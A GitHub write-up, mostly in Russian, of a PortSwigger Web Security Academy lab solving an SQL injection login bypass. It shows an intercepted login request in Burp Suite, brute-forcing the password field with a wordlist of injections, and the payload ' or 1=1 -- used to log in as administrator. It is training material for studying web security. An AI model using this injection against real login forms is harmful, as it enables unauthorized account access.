




<p align="center">
  
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE

---


## 🔍 Request interception

> уязвимость SQL инъекция содержится в форме логина.



> Перехватываю запрос в BurpSuite:

```html

POST /login HTTP/2
Host: 0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Cookie: session=QwKY92EStw5fSX6cRdTzfx9gWuLOQXx3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Referer: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=z5OAmZIGyksJrEQZSGA4gSBt9IRqMeib&username=sonya&password=hack

```

> Для решения этой лабы нужно войти в аккаунт как `administrator`. Поэтому изменяю параметр `username` в теле запроса и отправляю запрос в `Intruder`:


> Пробую брутфорсить поле `password` стандартными инъекциями в виде небольшого словаря

> **Note:** словарь прикладываю к репозиторию (SQLi_wordlist.txt)

> Запускаю брутфорс и обнаруживаю что один из ответов отличается по длине от остальных:




> Использую инъекцию `' or 1=1 --` и логинюсь как `adminsitrator`

> Result:




